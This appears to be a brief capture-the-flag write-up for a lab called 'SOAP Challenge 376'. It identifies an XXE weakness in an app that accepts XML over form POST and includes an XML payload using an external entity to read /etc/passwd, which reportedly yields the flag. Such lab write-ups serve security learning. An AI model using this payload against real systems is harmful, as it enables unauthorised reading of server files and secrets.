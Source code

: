 ### SOAP Challenge 376


Access the lab, on `POST` request, app that supports XML data transfer via a Form HTTP POST, maybe vunerability `XXE`

![xxe](image.png)

XXE?
```
Where to find XXE?
    Apps that support XML transports. Examples include:
    An app that supports XML data transfer via a Form HTTP POST
    An app that allows for Microsoft Office Document uploads
    An app that sends XML data via a UDP packet to a server that processes the packet
    Apps that rely on SAML for authentication. SAML uses XML for identity assertions and may be vuln
```

Try some payload `xxe`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY abc SYSTEM "file:///etc/passwd">]>
<data>
<ID>&abc;</ID>
</data>
```
![got flag](image-1.png)